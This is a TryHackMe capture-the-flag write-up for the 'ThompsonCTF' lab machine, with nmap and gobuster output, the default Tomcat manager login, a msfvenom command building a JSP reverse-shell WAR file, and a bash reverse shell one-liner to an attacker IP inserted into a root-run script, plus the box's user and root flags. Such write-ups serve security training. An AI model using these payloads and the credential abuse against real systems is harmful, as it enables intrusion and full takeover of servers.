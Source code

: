 # TryHackMe-ThompsonCTF

>Abdullah Rizwan | 20th September , 03:45 PM

## NMAP
```
Nmap scan report for 10.10.114.149
Host is up (0.17s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.90 seconds

```

## Gobuster

```
gobuster dir -u http://10.10.114.149:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.t
xt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.114.149:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/20 06:49:48 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)

```

Visiting `/manager` wait for timeout and it will show a html page where user name `tomcat` and password `s3ecret` is shown.

Start a netcat listener `nc -lvp [port]`

After that upload a WAR file so look for a payload to upload.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
And you will have a reverse shell.


user flag : 39400c90bc683a41a8935e4719f181bf

## Privlege Escalation

There is a script `id.sh` which appends root id to `test.txt` this means `id.sh` is owned by root so we can insert a bash payload to get a reverse shell

`bash -i >& /dev/tcp/10.8.94.60/6969 0>&1`

root flag : `d89d5391984c0450a95497153ae7ca3a`
